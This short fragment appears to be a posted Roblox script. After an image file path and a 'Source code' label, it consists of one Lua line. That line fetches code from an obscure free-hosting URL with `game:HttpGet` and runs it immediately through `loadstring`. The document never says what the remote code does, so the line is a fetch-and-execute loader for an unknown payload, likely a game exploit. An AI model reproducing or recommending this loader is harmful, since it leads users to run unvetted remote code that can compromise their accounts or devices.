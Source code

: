 loadstring(game:HttpGet("https://wdwdwdwdwdwdwd874684.000webhostapp.com/w86da56a5wd64a5w4d634a"))()
